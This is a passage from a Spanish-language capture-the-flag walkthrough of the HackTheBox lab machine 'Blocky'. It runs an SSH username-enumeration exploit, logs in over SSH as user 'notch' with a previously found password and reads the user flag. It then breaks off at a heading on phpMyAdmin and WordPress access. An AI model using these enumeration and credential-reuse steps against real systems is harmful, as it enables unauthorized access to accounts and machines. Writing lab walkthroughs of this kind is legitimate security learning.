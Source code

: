 PERFECTO! Ahí nos dice que **notch** si existe en esa máquina, pero no me gusta ese error que nos manda, quitémoslo para que solo se vea el resultado:
```bash
python2 SSH_Exploit.py 10.10.10.37 notch 2>/dev/null
[+] notch is a valid username
```
OK, ya nada más se ve el resultado.

Esta es una forma de saber si existe un usuario en un **servicio SSH**, para el futuro puede que nos sirva este Exploit.

<h2 id="SSH2">Probando Contraseña Encontrada en Servicio SSH</h2>

Intentemos loguearnos con el usuario **notch**:
```bash
ssh notch@10.10.10.37       
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ whoami
notch
```

Vale somos **notch**, veamos que hay por aquí:
```bash
notch@Blocky:~$ ls -la
total 40
drwxr-xr-x 5 notch notch 4096 Jul  8  2022 .
drwxr-xr-x 3 root  root  4096 Jul  2  2017 ..
-rw------- 1 notch notch    1 Dec 24  2017 .bash_history
-rw-r--r-- 1 notch notch  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 notch notch 3771 Jul  2  2017 .bashrc
drwx------ 2 notch notch 4096 Jul  2  2017 .cache
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft
drwxrwxr-x 2 notch notch 4096 Jul  2  2017 .nano
-rw-r--r-- 1 notch notch  655 Jul  2  2017 .profile
-r-------- 1 notch notch   33 Apr  4 15:48 user.txt
notch@Blocky:~$ cat user.txt
```
Excelente, ya tenemos la flag del usuario, ahora falta convertirnos en Root.

<h2 id="PHP">Ganando Acceso a Máquina Usando PHPMyAdmin y Wordpress</h2>
